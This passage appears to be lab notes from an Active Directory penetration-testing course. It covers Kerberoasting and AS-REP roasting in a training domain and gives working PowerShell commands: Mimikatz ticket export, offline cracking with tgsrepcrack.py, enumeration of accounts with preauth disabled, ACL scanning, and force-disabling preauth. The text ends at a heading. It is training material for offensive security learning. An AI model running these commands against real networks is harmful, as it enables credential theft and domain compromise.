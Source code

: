 `Request-SPNTicket` from PowerView can be used as well for cracking with John or Hashcat.

#### Check if the TGS has been granted
```powershell
klist
```

#### Export all tickets using Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student27@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.localDOLLARCORP.MONEYCORP.LOCAL.kirbi
```

# Learning Objective 14

Using the Kerberoast attack, crack password of a SQL server service account.

# AS-REP Roasting

- If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
- With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

#### Enumerating accounts with kerberos Preauth disabled
```powershell
# Using PowerView (dev)
Get-DomainUser -PreauthNotRequired -Verbose

# Using ActiveDirectory module:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

### Force disable Kerberos Preauth

#### Enumerate the permissions for RDPUsers on ACLs using PowerView (dev):
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} –Verbose

Get-DomainUser -PreauthNotRequired -Verbose
```

### Request encrypted AS-REP for offline brute-force
